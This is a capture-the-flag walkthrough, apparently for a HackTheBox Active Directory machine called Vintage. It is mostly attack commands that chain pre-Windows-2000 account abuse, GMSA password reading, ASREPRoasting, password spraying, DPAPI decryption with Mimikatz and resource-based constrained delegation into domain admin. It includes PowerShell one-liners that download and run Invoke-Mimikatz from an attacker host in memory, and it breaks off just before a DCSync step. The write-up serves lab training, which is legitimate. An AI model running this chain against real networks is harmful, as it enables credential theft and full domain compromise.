Enumeration
Open ports:
sudo nmap -T4 -sCV -p- -Pn --min-rate 5000 --open 10.129.43.114
...
Nmap scan report for 10.129.43.114
Host is up (0.063s latency).
Not shown: 65517 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2024-12-02 14:40:26Z)
135/tcp open msrpc Microsoft Windows RPC
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open mc-nmf .NET Message Framing
49664/tcp open msrpc Microsoft Windows RPC
49668/tcp open msrpc Microsoft Windows RPC
49670/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49683/tcp open msrpc Microsoft Windows RPC
57654/tcp open msrpc Microsoft Windows RPC
64602/tcp open msrpc Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required
| smb2-time:
| date: 2024-12-02T14:41:20
|_ start_date: N/AWe try collect data with NetExec BloodHound ingestor but it fails:
nxc ldap 10.129.110.204 -u P.Rosa -p 'Rosaisbest123' --bloodhound --collection All --verbose
Parameter -k must be used because of Kerberos authentication:
nxc ldap 10.129.110.204 -u P.Rosa -p 'Rosaisbest123' --bloodhound --collection All -k --dns-server 10.129.110.204Checking if there are any Kerberoastable accounts:
nxc ldap 10.129.110.204 -u P.Rosa -p 'Rosaisbest123' --kerberoasting kerberoast.txt -k 
Checking ASREPRoast:
impacket-GetNPUsers -dc-ip 10.129.110.204 -request -outputfile hashes.asreproast vintage.htb/P.Rosa:'Rosaisbest123' -dc-host dc01.vintage.htb
Since most of the tools won’t be able to work without Kerberos authentication, we must request a ticket-granting-ticket:
impacket-getTGT -dc-ip 'dc01.vintage.htb' 'vintage.htb'/'P.Rosa':'Rosaisbest123'To be able to use it on Linux we need to export it:
export KRB5CCNAME=P.Rosa.ccacheChecking if there is anything interesting on SMB, but only default Domain Controller shares are available:
nxc smb dc01.vintage.htb -u P.Rosa -p 'Rosaisbest123' --shares -k
smbclient.py 'vintage.htb'/'P.Rosa':'Rosaisbest123'@dc01.vintage.htb -k
Checking BloodHound, looks like there are two machines in this domain:

This server is a member of PRE-WINDOWS 2000 COMPATIBLE ACCESS group:

Initial access
Pre2k
Group description in BloodHound:

There is an interesting article about this topic: https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts
It looks like computers had the same hostname and password if this checkbox was turned on:

We can check it with this tool: https://github.com/garrettfoster13/pre2k
pre2k unauth -d vintage.htb -dc-ip 10.129.110.204 -save -inputfile usersAnd we get valid credentials:

To keep things tidy we rename the ticket:
mv FS01\$.ccache FS01.ccache Then we export it to be able to use it:
export KRB5CCNAME=FS01.ccacheGMSA
The FS01 machine account has ReadGMSAPassword privileges on GMSA01:

We can read the password with BloodyAD: https://github.com/CravateRouge/bloodyAD/wiki/User-Guide
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" -k get object 'GMSA01$' --attr msDS-ManagedPassword
Now we can use Overpass-the-Hash technique, creating Kerberos ticket based on NTLM hash:
impacket-getTGT vintage.htb/'GMSA01$' -hashes :a317f224b45046c1446372c4dc06ae53
Rename the new ticket:
mv GMSA01\$.ccache GMSA01.ccacheAnd export it as before:
export KRB5CCNAME=GMSA01.ccacheLooking at BloodHound data this should be the next step:

We can add the user to the SERVICEMANAGERS group with this command:
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" -k add groupMember "SERVICEMANAGERS" "P.Rosa"
Now we need to request a new ticket because we have additional privileges:
impacket-getTGT -dc-ip 'dc01.vintage.htb' 'vintage.htb'/'P.Rosa':'Rosaisbest123'And export it:
export KRB5CCNAME=P.Rosa.ccacheASREPRoast
Members of this group have GenericAll privileges on three service accounts:

These are the options for abuse:

Targeted Kerberoast doesn’t work:
python3 targetedKerberoast.py -v -d 'vintage.htb' -u 'P.Rosa' --kerberos -v --no-pass
Shadow credentials with pyWhisker also don’t work:
python3 pywhisker.py -d "vintage.htb" -u "P.Rosa" -p "Rosaisbest123" --target "sql_svc" --action "add"I’ve tried to run net rpc command with -k parameter, but couldn’t get it to work. Command pth-net rpc uses NTLM authentication, and it won’t work in this case. However, there is another option. We could disable pre-authentication on service users to execute ASREPRoast attack against them:
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" -u "P.Rosa" -p "Rosaisbest123" -k add uac "svc_sql" -f DONT_REQ_PREAUTH
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" -u "P.Rosa" -p "Rosaisbest123" -k add uac "svc_ark" -f DONT_REQ_PREAUTH
SQL service user is disabled:

We can enable it with this command:
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" -u "P.Rosa" -p "Rosaisbest123" -k remove uac "svc_sql" -f ACCOUNTDISABLE
To pefrorm ASREPRoast, we need a list of valid domain users. This can easily be done with NetExec:
nxc smb dc01.vintage.htb -d vintage.htb -k --use-kcache --rid-brute 5000 | grep SidTypeUser | cut -d: -f2 | cut -d \\ -f2 | cut -d' ' -f1 > usersWe use this file as input for ASREPRoast:
impacket-GetNPUsers -request -outputfile hashes.asreproast -format hashcat -usersfile users vintage.htb/
Cracking the hash with John:
john --format=krb5asrep --wordlist=rockyou.txt hashes.asreproast
Password spray
Checking password reuse:
sprayhound -U users -p Zer0the0ne -d vintage.htb -dc dc01.vintage.htb -lu P.Rosa -lp 'Rosaisbest123'
And we finally get a valid user! We still can’t connect on WinRM, TGT is needed:
impacket-getTGT -dc-ip 'dc01.vintage.htb' 'vintage.htb'/'C.Neri':'Zer0the0ne'Exporting it:
export KRB5CCNAME=C.Neri.ccacheWhen Evil-WinRM doesn’t work we can use this script to configure Kerberos realm: https://gist.github.com/zhsh9/f1ba951ec1eb3de401707bbbec407b98
Configuration should look like this:
cat /etc/krb5.conf
We connect and grab the user flag:
evil-winrm -i dc01.vintage.htb -r vintage.htb
Privilege escalation (user)
C.Neri privileges:

There is another user with the similar name, looks like administrator:

This user has GenericWrite on DELEGATEDADMINS group:

DPAPI
Based on the assumption that c.neri_adm is the same person as our current user, we can try to decrypt DPAPI to see if there is anything interesting inside.
A couple of interesting blogs on this technique: https://www.synacktiv.com/en/publications/windows-secrets-extraction-a-summary https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets
DPAPI blob location:
C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials\C4BB96844A5C9DD45D5B6A9859252BA6
Master key location:
C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115\99cf41a3-a552-4cf7-a8d7-aca2d6f7339
We can obtain master key with Mimikatz. First, run a simple Python HTTP server on Linux, then run this PowerShell one-liner from Windows, to execute Mimikatz from memory:
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.30/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command '"dpapi::masterkey /in:C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115\99cf41a3-a552-4cf7-a8d7-aca2d6f7339b /password:Zer0the0ne /protected"';
Now we can decrypt DPAPI using master key:
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.30/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command '"dpapi::cred /in:C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials\C4BB96844A5C9DD45D5B6A9859252BA6 /sid:S-1-5-21-4024337825-2033394866-2055507597-1115 /masterkey:f8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a"';
Privilege escalation (Administrator)
With this password we can request a ticket for admin user:
impacket-getTGT -dc-ip 'dc01.vintage.htb' 'vintage.htb'/'C.Neri_adm':'Uncr4ck4bl3P4ssW0rd0312'Export it:
export KRB5CCNAME=C.Neri_adm.ccacheThis user has AllowedToAct privilege on Domain Controller, which leads to Resource-based constrained delegation attack:

RBCD
First we enable SQL service user, because cleanup script is disabling it periodically:

Enable-ADAccount -Identity svc_sqlIf SPN for service user isn’t set manually, we won’t be able to execute RBCD attack. That’s why we need GenericAll privileges on service users. SPN can be set on Windows:
Set-ADUser -Identity svc_sql -Add @{servicePrincipalName="cifs/bbk"}Or alternatively on Linux:
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.129.181.111 -k set object "SVC_SQL" servicePrincipalName -v "cifs/bbk"Use admin account to add service user to the group:

bloodyAD --host dc01.vintage.htb --dc-ip 10.129.181.111 -d "VINTAGE.HTB" -u c.neri_adm -p 'Uncr4ck4bl3P4ssW0rd0312' -k add groupMember "DELEGATEDADMINS" "SVC_SQL"
Request Domain Admin ticket:
impacket-getST -spn 'cifs/dc01.vintage.htb' -impersonate L.BIANCHI_ADM -dc-ip 10.129.133.231 -k 'vintage.htb/svc_sql:Zer0the0ne'
Export it:
export KRB5CCNAME=L.BIANCHI_ADM@cifs_dc01.vintage.htb@VINTAGE.HTB.ccacheAnd execute DCSync attack:
